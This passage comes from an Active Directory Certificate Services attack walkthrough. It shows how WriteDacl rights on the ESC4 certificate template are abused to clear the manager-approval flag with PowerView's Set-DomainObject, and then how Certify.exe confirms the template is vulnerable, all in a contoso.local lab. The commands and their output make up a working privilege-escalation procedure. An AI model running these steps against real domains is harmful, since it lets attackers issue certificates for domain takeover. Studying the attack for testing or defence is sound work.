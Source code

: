 Now we got enrollment rights for the vulnerable certificate.

### Disabling Manager Approval Requirement
There is one more obstacle to issuing the certificate.
To get a certificate with the target template passively, we need to disable Manager Approval requirement.

To disable Manager Approval requirement, we need to set `PEND_ALL_REQUESTS` flag bit in `mspki-enrollment-flag` attribute to null.
According to [Microsoft Docs](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/ec71fd43-61c2-407b-83c9-b52272dec8a1), the `PEND_ALL_REQUESTS` flag bit is `0x00000002`. 
Abusing WriteDacl, we can set `PEND_ALL_REQUESTS` flag bit to null by `Set-DomainObject` function of PowerView:

```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity ESC4 -XOR @{'mspki-enrollment-flag'=2} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] XORing 'mspki-enrollment-flag' with '2' for object ''
PS C:\Tools>
```

To avoid complications, it is preferable to use the `-XOR` option instead of the `-Set` option to edit the flag as above.
We can recover the setting by executing the same command.

The results can be verified using `Certify.exe`, etc.:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 1
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
                                      CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519

--snip--
```
